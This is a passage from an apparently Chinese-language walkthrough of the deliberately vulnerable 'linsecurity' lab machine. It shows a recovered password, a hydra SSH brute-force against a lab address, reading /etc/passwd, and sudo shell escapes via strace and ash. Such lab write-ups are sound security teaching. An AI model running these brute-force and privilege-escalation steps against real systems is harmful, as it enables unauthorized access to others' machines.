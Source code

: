 得到密码，尝试登录：

```apl
insecurity
P@ssw0rd!
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151403.png" alt="image-20240224220427298" style="zoom:50%;" />

### 爆破出 bob 用户再提权(peter)

```bash
cat /etc/passwd
# 找到一些用户名丢进去爆破，这里直接放入bob和susan
echo -e "bob\nsusan" > flag.txt
hydra -L flag.txt -P /usr/share/seclists/Passwords/500-worst-passwords.txt 192.168.244.129 ssh -t 4
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151404.png" alt="image-20240225002852941" style="zoom:50%;" />

ssh连接一下，使用最简单的提权：

![image-20240225002646382](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151405.png)

### strace(peter) (NFS privilege escalation)

先查看一下`sudo -l`：

检索一下相关提权方法：`sudo strace -o /dev/null /bin/sh`

![image-20240225003045749](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151406.png)

### sudo -l

先使用`sudo -l`查看一下基础信息：

```bash
Matching Defaults entries for bob on linsecurity:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bob may run the following commands on linsecurity:
    (ALL) /bin/ash, /usr/bin/awk, /bin/bash, /bin/sh, /bin/csh, /usr/bin/curl, /bin/dash, /bin/ed, /usr/bin/env, /usr/bin/expect, /usr/bin/find, /usr/bin/ftp, /usr/bin/less, /usr/bin/man,
        /bin/more, /usr/bin/scp, /usr/bin/socat, /usr/bin/ssh, /usr/bin/vi, /usr/bin/zsh, /usr/bin/pico, /usr/bin/rvim, /usr/bin/perl, /usr/bin/tclsh, /usr/bin/git, /usr/bin/script, /usr/bin/scp
```

### ash(bob)

```shell
sudo ash
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151407.png" alt="image-20240224220834963" style="zoom:50%;" />
